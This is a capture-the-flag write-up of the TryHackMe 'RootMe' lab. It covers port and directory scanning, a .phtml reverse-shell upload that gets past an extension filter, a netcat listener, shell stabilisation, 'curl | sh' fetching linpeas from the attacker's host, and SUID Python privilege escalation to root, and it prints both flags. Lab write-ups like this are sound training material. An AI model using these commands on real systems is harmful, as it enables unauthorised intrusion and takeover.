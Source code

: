 # RootMe

```bash
export IP=10.10.33.62
```


## Scans

### Nmap

Open Ports:
```
22 -- ssh
80 -- webserver Apache 2.4.29
```

### Gobuster

Directories Found:
```
/uploads -- shows uploaded files
/css
/js
/panel -- upload file form here
```


## Exploit

`.php` files not accepted, `.phtml` is fine

`revshell.phtml` uploaded to `/panel`

Netcat Listening port:
```bash
nc -lnvp 9001
```

going to `/uploads` and opening `revshell.phtml`, spawns a shell

Reverse Shell Achieved.

### Stabilizing Shell

Command: (type carefully, beware of typos in this whole section)
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

To 'background' process:
```bash
<Ctrl> <z>
```

No input return after this command:
```bash
stty raw -echo
```

Typing in the dark:
```bash
<f> <g>
<Return>
<Return>
export TERM=xterm
<Return>
<Return>
```

Shell stabilized. -- tab completion, backspace, CTRL+C, arrow key history functional

User Found: `rootme`


## Linpeas

`linpeas.sh` -- Linux auto enumeration script -- shows vulnerabilities and possible privesc vectors

Uploading linpeas.sh to target: (from host machine)
```bash
sudo python -m SimpleHTTPServer 80
```

Uploading linpeas.sh to target: (from target machine) -- don't forget to change to host tun0 $IP
```bash
curl 10.10.10.10/linpeas.sh | sh 
```

Interesting Info Found:

```
/etc/ssh/ssh_config
/usr/share/keyrings
/var/www/user.txt
```

`/usr/bin/python` has SUID permission!!


**User Flag Found**: `THM{y0u_g0t_a_sh3ll}`


## PrivEsc

searching for Python on [gtfoBins](https://gtfobins.github.io/gtfobins/python/)

Command: (on target machine)
```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Root Shell Achieved.

```bash
ls
cat root.txt
```

**Root Flag Found**: `THM{pr1v1l3g3_3sc4l4t10n}`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)

